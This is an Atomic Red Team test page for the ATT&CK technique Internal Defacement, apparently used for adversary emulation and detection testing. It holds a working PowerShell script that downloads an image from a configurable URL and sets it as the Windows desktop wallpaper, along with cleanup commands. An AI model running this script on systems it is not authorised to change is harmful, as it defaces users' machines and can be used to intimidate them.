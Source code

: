# T1491.001 - Internal Defacement
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1491/001)
<blockquote>An adversary may deface systems internal to an organization in an attempt to intimidate or mislead users. This may take the form of modifications to internal websites, or directly to user systems with the replacement of the desktop wallpaper.(Citation: Novetta Blockbuster) Disturbing or offensive images may be used as a part of [Internal Defacement](https://attack.mitre.org/techniques/T1491/001) in order to cause user discomfort, or to pressure compliance with accompanying messages. Since internally defacing systems exposes an adversary's presence, it often takes place after other intrusion goals have been accomplished.(Citation: Novetta Blockbuster Destructive Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Replace Desktop Wallpaper](#atomic-test-1---replace-desktop-wallpaper)


<br/>

## Atomic Test #1 - Replace Desktop Wallpaper
Downloads an image from a URL and sets it as the desktop wallpaper.

**Supported Platforms:** Windows


**auto_generated_guid:** 30558d53-9d76-41c4-9267-a7bd5184bed3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_of_wallpaper | URL pointing to the image file you wish to set as wallpaper | url | https://redcanary.com/wp-content/uploads/Atomic-Red-Team-Logo.png|
| pointer_to_orginal_wallpaper | Full path to where a file containing the original wallpaper location will be saved | String | $env:TEMP&#92;T1491.001-OrginalWallpaperLocation|
| wallpaper_location | Full path to where the downloaded wallpaper image will be saved | String | $env:TEMP&#92;T1491.001-newWallpaper.png|


#### Attack Commands: Run with `powershell`! 


```powershell
$url = "#{url_of_wallpaper}"
$imgLocation = "#{wallpaper_location}"
$orgWallpaper = (Get-ItemProperty -Path Registry::'HKEY_CURRENT_USER\Control Panel\Desktop\' -Name WallPaper).WallPaper
$orgWallpaper | Out-File -FilePath "#{pointer_to_orginal_wallpaper}"
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
$wc = New-Object System.Net.WebClient  
try{  
    $wc.DownloadFile($url, $imgLocation)
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
catch [System.Net.WebException]{  
    Write-Host("Cannot download $url") 
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
finally{    
    $wc.Dispose()  
}
```

#### Cleanup Commands:
```powershell
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
if (Test-Path -Path #{pointer_to_orginal_wallpaper} -PathType Leaf) {
     $orgImg = Get-Content -Path "#{pointer_to_orginal_wallpaper}"
     add-type $updateWallpapercode 
     [Win32.Wallpaper]::SetWallpaper($orgImg)
}
Remove-Item "#{pointer_to_orginal_wallpaper}" -ErrorAction Ignore
Remove-Item "#{wallpaper_location}" -ErrorAction Ignore
```





<br/>

